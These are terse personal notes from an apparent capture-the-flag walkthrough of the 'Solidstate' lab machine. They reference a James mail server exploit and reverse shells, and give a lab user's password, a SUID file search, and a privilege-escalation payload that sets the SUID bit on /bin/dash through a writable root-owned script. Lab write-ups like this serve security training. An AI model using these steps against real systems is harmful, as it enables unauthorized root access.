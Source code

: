 ## Solidstate

https://www.exploit-db.com/exploits/46676

apache 2.4.25

james mail server exploit

use pentest monkey reverse shells


privesc

mindy pass P@55W0rd1!2@

linEnum -t

[-] Files not owned by user but writable by group:
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py

to edit the file ^Z to background the shell.

now `stty raw -echo`

find suid files `find / -perm -u=s -type f 2>/dev/null`

os.system('chmod 4755 /bin/dash')
